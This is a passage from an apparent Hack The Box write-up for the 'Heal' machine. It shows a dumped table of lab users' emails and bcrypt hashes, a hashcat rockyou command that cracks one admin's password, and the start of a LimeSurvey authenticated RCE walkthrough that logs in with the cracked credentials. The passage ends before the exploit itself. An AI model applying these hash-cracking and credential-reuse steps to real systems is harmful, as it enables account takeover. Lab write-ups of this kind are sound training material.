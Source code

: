 After inspecting the DB, I found user records containing emails and bcrypt hashed passwords:

| Email                                               | Password Hash                                                    | User   |
| --------------------------------------------------- | ---------------------------------------------------------------- | ------ |
| [rio.futaba@gmail.com](mailto:rio.futaba@gmail.com) | \$2a\$12\$w9n.LGgqxqxvaoGzW59C5umIu5.0J1qG/d2lJIS6nQKDqey4mtE2G2 | Futaba |
| [aererg@hacker.com](mailto:aererg@hacker.com)       | \$2a\$12\$GSa08pbnl/WyjLEJCkOIMulJafi7qBeYgwdslFOUl5T0eP5UJJHcK  | Aererg |
| [vantascure@heal.htb](mailto:vantascure@heal.htb)   | \$2a\$12\$J26BZVlMLw\.5DyIWQkJOquoAdTNJ//pqByWOxbSVvF9ebDGOBghA2 | Vantas |
| [admin@htb.com](mailto:admin@htb.com)               | \$2a\$12\$OF7cQ4INjQWRfLJ3FFcc9ea2Rtaoy/DFX0e4VokaB.eAlPnb0l4qe  | Admin  |
| [ralph@heal.htb](mailto:ralph@heal.htb)             | \$2a\$12\$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG  | Ralph  |

---

## Cracking Ralph's Password

Using `hashcat` with mode `3200` (bcrypt) and the famous rockyou.txt wordlist:

```bash
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

After cracking:

```bash
hashcat --show -m 3200 hashes.txt
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```

**Ralph's password:** `147258369`

---
# Limesurvey Authenticated RCE Exploit Walkthrough

---

## Step 1: Initial Login

Head over to the admin login page:

[http://take-survey.heal.htb/index.php/admin/authentication/sa/login](http://take-survey.heal.htb/index.php/admin/authentication/sa/login)

Login with:

- **Username:** `ralph`
- **Password:** `147258369`

---

## Step 2: Using the Authenticated RCE Exploit

I found a ready-made Authenticated Remote Code Execution (RCE) exploit for Limesurvey — full credit goes to the original authors!

